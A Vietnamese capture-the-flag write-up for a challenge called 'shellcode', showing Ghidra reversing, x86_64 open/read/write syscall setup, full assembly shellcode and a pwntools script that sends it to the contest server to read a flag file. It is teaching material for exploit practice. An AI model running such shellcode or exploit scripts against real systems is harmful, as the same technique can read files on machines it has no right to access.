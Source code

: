 # shellcode
## Description
dễ mà tự viết đi trên trên mạng không có đâu  

Bắt buộc dùng open, read, write để đọc flag  
Không cần quan tâm đến seccomp  
Dùng syscall ngoài open, read, write sẽ bị khóa  
`nc 45.122.249.68 10017`  

[Attachment](https://cnsc.uit.edu.vn/ctf/files/db7066ca17b81de21557500b08550d5a/shellcode.zip?token=eyJ1c2VyX2lkIjoxMTczLCJ0ZWFtX2lkIjo1MDUsImZpbGVfaWQiOjE4OH0.Yck_VQ.ABqT571dLtuVnxwAEgSGS7poz20)

## Solution
Dùng ghidra để reverse file thì ta có pseudocode như sau:  

![image](https://user-images.githubusercontent.com/44528004/147434866-bee4a4ab-f452-45d9-b790-1e902bc8aec8.png)

Ta thấy rằng, chương trình sẽ trực tiếp thực thi code mà ta truyền vào buffer, đồng thời với các hint được cấp thì ta biết rằng đây là 1 bài thuần viết shellcode.  

Tham khảo bài blog [sau](https://drx.home.blog/2019/04/03/pwnable-tw-orw/) và thực hiện 1 số thay đổi tương ứng với các lời gọi hàm cho kiến trúc x86_64. Tham khảo bảng syscall cho x86_64 để biết cách setup cho syscall:  

![image](https://user-images.githubusercontent.com/44528004/147435017-3bbf7c76-501f-439c-a4b1-456e89b1b4c7.png)

Đầu tiên, thứ tự gọi syscall của ta sẽ là `open` -> `read` -> `write`, tương ứng mở file, đọc file, và ghi file ra `stdout`.  

Đối với `open`:  
- `rax` sẽ bằng `0x2`.
- `rdi` sẽ chưa địa chỉ của chuỗi `filename`.
- `rsi` sẽ chỉ định các flags (các flags này dùng để chỉ định tạo file mới nếu file không tồn tại, chỉ đọc file mà không tạo file mới, ...). Ở đây ta chỉ cần đọc file nên `flags-0x0` là được.
- `rdx` ta sẽ set bằng `0x0` vì ta không cần quan tấm đến thanh ghi này.  

Shellcode cho `open`.:
```nasm
        xor rbx, rbx
        mov rbx, 0x7478742e
        push rbx
        mov rbx, 0x6e6f446f43676e6f
        push rbx
        mov rbx, 0x684b616850616850
        push rbx
        push rsp
        pop rdi
        xor rdx, rdx
        xor rsi, rsi
        mov rax, 0x2
        syscall
```

Đối với `read`:
- `rax` sẽ bằng `0x0`.
- `rdi` sẽ là file descriptor. File descriptor này chính là giá trị trả về bởi `open`.
- `rsi` sẽ là địa chỉ của buffer sẽ chứa chuỗi đọc được từ file. Ở đây ta sẽ ghi đỉnh stack vì trong shell code của chúng ta, stack sẽ không thay đổi trong quá trình thực thi, đồng thời stack là nơi mà ta có quyền ghi dữ liệu.
- `rdx` là độ dài tối đa mà ta muốn đọc.

Shellcode cho `read`:
```nasm
        mov rdi, rax
        mov rsi, rsp
        mov rdx, 300
        mov rax, 0x0
        syscall
```

Đối với `write`:
- `rax` sẽ bằng `0x1`.
- `rdi` sẽ là file descriptor hoặc 1 giá trị đại diện cho 1 stream nào đó để ghi dữ liệu. Ở đây, ta sẽ in ra `stdout` nên file descriptor sẽ là `0x1`.
- `rsi` sẽ chứa địa chỉ của buffer mà ta muốn ghi.
- `rdx` là độ dài tối đa mà ta muốn ghi.

Shellcode cho `write`:
```nasm
        mov rax, 0x1
        mov rdi, 0x1
        mov rsi, rsp
        mov rdx, 300
        syscall
```

Shellcode hoàn chỉnh:
```nasm
global _start

section .text
_start:
        xor rbx, rbx
        mov rbx, 0x7478742e
        push rbx
        mov rbx, 0x6e6f446f43676e6f
        push rbx
        mov rbx, 0x684b616850616850
        push rbx
        push rsp
        pop rdi
        xor rdx, rdx
        xor rsi, rsi
        mov rax, 0x2
        syscall

        mov rdi, rax
        mov rsi, rsp
        mov rdx, 300
        mov rax, 0x0
        syscall

        mov rax, 0x1
        mov rdi, 0x1
        mov rsi, rsp
        mov rdx, 300
        syscall
```

Thử compile và thực thi shellcode:  

![image](https://user-images.githubusercontent.com/44528004/147435499-6ff50c56-0e99-40d1-a000-66ca59696ecf.png)
> Đọc flag thành công.  


Script exploit:  
```python
from pwn import *

shellcode = asm('\n'.join([
        # open:
        # at the end of this procedure,
        # %rax points to the file descriptor.
        'xor rbx, rbx',
        'mov rbx, %d' % u64(b'on.txt\x00\x00'),
        'push rbx',
        'mov rbx, %d' % u64(b'KhongCoD'),
        'push rbx',
        'mov rbx, %d' % u64(b'./PhaPha'),
        'push rbx',
        'push rsp',
        'pop rdi',
        'xor rdx, rdx',
        'xor rsi, rsi',
        'mov rax, 0x02',
        'syscall',

        # read:
        # at the end of this procedure,
        # %rbx stores the string that has just been read.
        'mov rdi, rax',
        'mov rsi, rsp',
        'mov rdx, 300',
        'mov rax, 0x0',
        'syscall',

        # write
        'mov rax, 0x1',
        'mov rdi, 0x1',
        'mov rsi, rsp',
        'mov rdx, 300',
        'syscall'
    ]), arch='amd64', os='linux', bits=64)

# p = process('./shellcode')
p = remote('45.122.249.68', 10017)
p.sendline(shellcode)
p.interactive()
```

Chạy code exploit local:  

![image](https://user-images.githubusercontent.com/44528004/147435617-fe89c520-78e0-4f2a-aac7-4cc5777e2029.png)
> Đọc flag thành công.
